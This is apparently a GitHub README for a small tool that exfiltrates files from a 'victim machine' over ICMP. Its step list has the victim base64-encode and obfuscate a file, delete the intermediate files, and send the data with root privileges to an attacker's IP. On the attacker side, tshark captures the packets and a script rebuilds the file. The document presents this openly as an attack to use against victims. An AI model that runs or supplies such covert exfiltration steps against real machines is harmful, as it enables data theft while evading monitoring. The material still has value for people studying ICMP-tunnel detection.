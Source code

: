# ICMP Encrypt Message

Small project to send files encoded and obfuscated over ICMP as a secondary means of communication.

It's required to have root access in the victim machine.

The obfuscation method can be changed. Just edit *ofuscador.py* and *deOfuscador.py* to something that fits your needs.

Steps:
```
[Victim Machine]
    cat <file to send> | base64 > token
    python ofuscador.py token tmp
    rm token
    (sudo) python icmp.py <ip to send the file> tmp # You need to run this as root
    rm tmp

[Attacker Machine]
    (sudo) tshark -i lo -f 'icmp[0] == 8' -e data -Tjson > tout.json # You need to run this as root
    ./getFileBack.sh <final File>
```

